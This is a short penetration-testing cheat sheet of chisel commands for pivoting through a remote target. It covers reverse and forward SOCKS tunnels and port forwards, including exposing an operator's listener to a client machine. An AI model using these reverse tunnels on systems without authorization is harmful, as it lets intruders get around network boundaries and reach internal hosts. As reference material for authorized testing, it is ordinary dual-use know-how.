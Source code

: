 # Pivoting-chisel

% chisel, pivoting

## tuneling server (Reverse pivot)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./chisel server -v -p <server_port|8000> --reverse --socks5
```
		
## tunneling client (Reverse pivot)
#plateform/windows  #target/remote  #cat/PIVOT 
```
./chisel client <server_ip>:<server_port> R[:port]:socks
```

## tuneling server (pivot)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./chisel server -v -p <server_port|8000> --socks5
```

## tunneling client (pivot)
#plateform/windows  #target/remote  #cat/PIVOT 
```
./chisel client <server_ip>:<server_port> socks
```

## port forwarding server (Reverse pivot)

```
./chisel server -v -p <server_port> --reverse 
```


## Local port forwarding (Reverse pivot) 
#plateform/linux  #target/remote  #cat/PIVOT 

This forward {clientside-host}:{clientside-port} to server {local-port}
To get the port of the client machine locally on serverside.
ex: R:2222:localhost:22 to get the client 22 (ssh) on the port 2222 of the server
To get the port of a machine reacheable by the client machine locally on serverside.
ex: R5985:172.16.22.1:5985
```
./chisel client -v <server_ip>:<server_port|8000> R:<serverside-port>:<clientside-host|localhost>:<clientside-port>
```

## remote port forwarding (Reverse pivot) 
#plateform/linux  #target/remote  #cat/PIVOT 

To expose server port remotely (useful to expose your listener)
This forward {serverside-host}:{serverside-port} from the server to {clientside-host}:{clientside-port}
ex : 0.0.0.0:4445:127.0.0.1:4444 expose the server 4444 listener to client 4445
| server | - 4444 ------->  |client|-4445 : *   <-

```
./chisel client -v <server_ip>:<server_port|8000> <clientside-host|0.0.0.0>:<clientside-port>:<serverside-host|127.0.0.1>:<serverside-port>
```
